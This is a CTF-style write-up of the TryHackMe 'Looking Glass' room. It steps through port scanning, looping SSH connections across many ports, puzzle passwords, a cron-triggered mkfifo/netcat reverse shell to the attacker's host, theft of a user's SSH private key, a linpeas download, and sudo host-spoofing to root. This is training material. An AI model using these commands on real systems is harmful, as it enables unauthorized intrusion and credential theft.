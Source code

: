 # Looking Glass

**Room Link:** [https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (651).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (652).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (654).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

Same as the first scan, a lot of ssh ports open

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



## TCP/22 - SSH

**Kali**

<figure><img src="../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nmap -A $VICTIM -oN results.txt
grep -oE '^[0-9]+/' results.txt > num.txt
cat num.txt
```

<figure><img src="../../.gitbook/assets/image (656).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat num.txt |  tr -d '\n' | sed 's/\//,/g' | tr -d ' '
```

<figure><img src="../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for port in 9000 9001 9002 9003 9009 9010 9011 9040 9050 9071 9080 9081 9090 9091 9099 9100 9101 9102 9103 9110 9111 9200 9207 9220 9290 9415 9418 9485 9500 9502 9503 9535 9575 9593 9594 9595 9618 9666 9876 9877 9878 9898 9900 9917 9929 9943 9944 9968 9998 9999 10000 10001 10002 10003 10004 10009 10010 10012 10024 10025 10082 10180 10215 10243 10566 10616 10617 10621 10626 10628 10629 10778 11110 11111 11967 12000 12174 12265 12345 13456 13722 13782 13783; do
    echo "connecting to port $port"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $port test@$VICTIM;done 
```



<figure><img src="../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for i in $(seq 12345 13465); do echo "connecting to port $i"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $i $VICTIM;done | grep -vE 'Lower|Higher'
```

<figure><img src="../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

```
Key: thealphabetcipher
```

<figure><img src="../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh $VICTIM -p 12350
Password: bewareTheJabberwock
```

<figure><img src="../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Kali**

<pre><code><strong>ssh jabberwock@$VICTIM 
</strong>Password: PlaceThanksSelfishGrinned
</code></pre>



**Victim**

<pre><code><strong>sudo -l
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cat /etc/crontab
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /home/jabberwock
</strong><strong>vi twasBrillig.sh
</strong></code></pre>

**twasBrillig.sh**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc $KALI 1337 >/tmp/f
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```



**Victim**

<pre><code><strong>sudo /sbin/reboot
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim(tweedledee)**

<pre><code><strong>cd /home/tweedledee
</strong><strong>cat humptydumpty.txt 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledee)**

<pre><code><strong>sudo -l
</strong>sudo -u tweedledum /bin/bash 
</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>cd /home/tweedledum/
</strong>cat humptydumpty.txt 
</code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>su humptydumpty
</strong><strong>Password: zyxwvutsrqponmlk
</strong></code></pre>

I can get into alice's folder but I can't actually ls and see files, but I tried looking at files that are usually there and I found her id\_rsa key.

**Victim(humptydumpty)**

<pre><code><strong>cd /home/alice
</strong><strong>cat .ssh/id_rsa
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copy key to Kali

**Kali**

```
chmod 600 id_rsa 
ssh alice@$VICTIM -i id_rsa
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim(alice)**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(alice)**

```
cat /etc/sudoers.d/alice 
sudo -h ssalg-gnikool -l
sudo -h ssalg-gnikool /bin/bash
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


